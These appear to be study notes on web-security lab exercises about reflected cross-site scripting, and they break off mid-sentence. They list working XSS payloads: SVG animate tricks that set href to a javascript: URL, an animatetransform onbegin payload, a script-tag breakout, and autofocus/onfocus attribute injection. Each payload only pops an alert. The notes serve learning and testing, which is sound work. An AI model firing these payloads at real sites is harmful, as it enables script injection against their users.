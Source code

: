 check this https://yikai0505.medium.com/lab-reflected-xss-into-html-context-with-most-tags-and-attributes-blocked-fa6098938b34

---

**Reflected XSS with event handlers and `href` attributes blocked** 

we will use <svg> tag

<animate>
The SVG <animate> element provides a way to animate an attribute of an element over time.

`<svg viewBox="0 0 10 10" xmlns="http://www.w3.org/2000/svg">`
 	 `<rect width="10" height="10">`
 	  ` <animate attributeName="rx" values="0;5;0" dur="10s" repeatCount="indefinite" />`
 	` </rect>`
`</svg>`

search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E 

`search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>`

---

**Reflected XSS with some SVG markup allowed**

`search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E`

`search=<svg><animatetransform%20=1>`

---

When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:

```
"><script>alert(document.domain)</script>
```

More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler. For example:

```
" autofocus onfocus=alert(document.domain) x="
```

The above payload creates an `onfocus` event that will execute JavaScript when the element receives the focus, and also adds the `autofocus` attribute to try to trigger the `onfocus` event automatically without any user interaction. Finally, it adds `x="` to gracefully repair the following markup.

`"onmouseover="alert(1)`

---

**input field value goes to href attribute** 

Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context. Here, you can execute JavaScript without needing to terminate the attribute value. For example, if the XSS context is into the `href` attribute of an anchor tag, you can use the `javascript` pseudo-protocol to execute script. For example:
